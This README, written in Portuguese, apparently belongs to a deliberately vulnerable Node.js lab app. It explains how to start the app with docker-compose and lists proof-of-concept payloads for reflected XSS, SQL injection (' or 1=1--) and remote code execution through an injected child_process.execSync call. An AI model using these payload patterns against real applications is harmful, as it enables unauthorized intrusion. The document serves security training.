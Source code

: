 # Vulnerable Node Application
- [Vulnerable Node Application](#vulnerable-node-application)
  - [Execução](#execução)
  - [Vulnerabilidades](#vulnerabilidades)
    - [XSS](#xss)
    - [SQL Injection](#sql-injection)
    - [RCE](#rce)

## Execução
Descompactação e execução dos containers por linha de comando.
```
$ unzip VulnNode.zip
$ cd VulnNode
$ docker-compose up
```
Exemplo após a inicialização dos containers.
![Docker Compose em execução](https://res.cloudinary.com/dtr6hzxnx/image/upload/v1681241692/Via/2023-04-11_16.24.37_kmoglj.gif)


URL para acesso à aplicação.
```
http://localhost:3000
``````
![Vulnerable Node Application](images/VulnerableNodeApplication.png)

## Vulnerabilidades 
### XSS

Payload de exploração
```
/?userInput=<script>alert(1)</script>
```
Evidência
![Cross-Site Script](images/xss.png)

### SQL Injection

Payload de exploração
```
/users?username='+or+1=1--&access-token=' 
```

Evidência em uso normal do endpoint.
![SQL Injection](images/sqli.png) 


### RCE
Payload de exploração
```
/users/has-access?userId=1&resourceId=42&userAccessCheck=function(userId,%20resourceId)%20{%20return%20require('child_process').execSync('ping+-c+4+localhost').toString();%20}
``` 

Evidência
![Remote Code Execution](images/rce.png)